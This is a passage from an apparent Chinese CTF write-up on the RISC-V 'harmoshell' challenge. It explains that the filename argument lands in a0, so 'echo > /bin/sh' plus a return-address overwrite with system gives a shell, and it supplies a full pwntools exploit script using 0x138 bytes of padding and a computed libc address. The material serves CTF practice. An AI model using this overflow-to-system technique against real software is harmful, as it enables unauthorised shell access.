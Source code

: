 ![](https://tva1.sinaimg.cn/large/008eGmZEly1gmfauetf2aj30qq0z0wgg.jpg)

作为函数调用第一个参数的a0所指向的地址居然是`echo > aaaaaaaa`中的`aaaaaaaa`

那么连rop都省了，直接`echo > /bin/sh`，再通过gdb查看got表中的libc地址计算system函数地址来覆盖返回地址

exp：

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='harmoshell'
libc_name='libc-2.27.so'

libc=ELF("./libs/lib/"+libc_name)
e=ELF("./"+binary_name)

if local:
	#p = process(["./qemu-riscv64",'-g','1234', "-L", "./libs", './'+binary_name])
    
	p = process(["./qemu-riscv64", "-L", "./libs", './'+binary_name])
else:
    p=remote('',)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))


libcbase = 0x00000040009a5a4e-libc.sym['__libc_start_main']
system = libcbase+libc.sym['system']
print(hex(system))

sla('$','echo > /bin/sh')
sl(b'\x00'*0x138+p64(system))
 
ia()

```
